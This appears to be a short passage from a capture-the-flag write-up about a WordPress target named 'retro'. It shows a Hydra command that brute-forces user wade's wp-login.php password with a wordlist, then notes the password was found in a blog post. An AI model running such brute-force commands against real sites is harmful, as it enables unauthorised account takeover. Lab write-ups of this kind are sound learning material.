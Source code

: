 <figure><img src="../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>





### Hydra

I tried to bruteforce wades account but no luck. Looking back later the password was not in the below password list but it was in rockyou.txt but it would have taken awhile to find it.

```
hydra -l wade -P darkweb2017-top1000.txt $VICTIM/retro http-post-form "/retro/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2Fwp-admin%2F&testcookie=1:is incorrect." -V -t 30 
```

###

wade added his password to one of the blog posts and from there I could login to wp-login.
